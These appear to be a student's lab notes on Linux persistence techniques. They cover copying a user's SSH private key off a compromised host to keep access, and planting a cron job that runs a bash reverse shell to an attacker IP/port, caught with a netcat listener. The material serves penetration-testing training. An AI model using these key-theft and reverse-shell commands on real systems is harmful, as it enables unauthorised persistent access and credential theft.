 Persistence via SSH:

- Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
- If SSH is enabled and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
- In most cases Linux servers will have key-based authentication enabled for the SSH service, allowing the users to access the Linux system remotely without the need for a password.
- After gaining the access to a Linux system, we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all the future authentication and access

Lab details: 

- In this lab we have got a non interactive shell and the target IP address is our adjacent IP address on eth1
- Let us say we have compromised the student account on ssh in the target as we have already got the login name and password in the lab so we can go ahead and focus on the persistence setup.
- Once we login to the system using the ssh of student account if we are to list the contents of the home directory we can see that we have got the following hidden and regular directories
	- .cache
	- .ssh
		- authorized_keys (Contains the authorized keys for specific private keys)
		- id_rsa (Contains the private key part of the ssh keys)
	- wait > the content of the wait file is `Delete this file to trigger connection reset & Delete it only after planting the backdoor`
- Our goal is to get the private key onto our local attack machine and to do that we can use the following command `scp {username}@{targetIP}:~/.ssh/id_rsa` doing so we can get the private key onto our local attack machine. You will use the password here.
- Then modify the permissions on the id_rsa file that is *chmod 400 {file}*
- We will login now using the password and remove the wait so that the connection can be reset and we will be logged out automatically and can no longer login with the password so we need to use the private key. How do we do it ?
- Use _ssh -i {privateKey} {username}@{targetIP}_ this way we will be able to login without password.
- Usually what we do is generate a new ssh private key and save the private key on our system and transfer the public key to the authorized keys list.


Persistence using the cron jobs

- Linux implements task scheduling through a utility called Cron. Cron is a time based service that runs applications, scripts and other commands repeatedly on a specified schedule.
- An application, or script that has been configured to be run repeatedly with Cron is known as a Cron job.
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

Anatomy of a cron job:
![[Pasted image 20230824230730.png]]

Lab details:

- Find the IP address and your target is the adjacent IP address to your IP irrespective of the subnet.
- Now that we have got the target IP address we can try to login to the system with the ssh using the default password : _password_ and username : _student_ 
	`ssh {username}@{targetIP}`
- List out the contents of the home directory as we see it was the same to the above lab with the wait binary and .cache hidden folder.
- Use `cat /etc/cron*` to display all the cron job files
- To create a cron file we can follow the below steps:
	- echo "\* \* \* \* \* /bin/bash -c 'bash -i >& /dev/tcp/{attackerIP}/{port} 0>&1'" > cron
	- crontab -i cron
	- crontab -l
- We get the shell with the same permission we have created the cron job
- Now we can goahead and delete the wait binary and start of with the netcat listener `nc -nlvp {port}`
- We get an interactive shell in this session.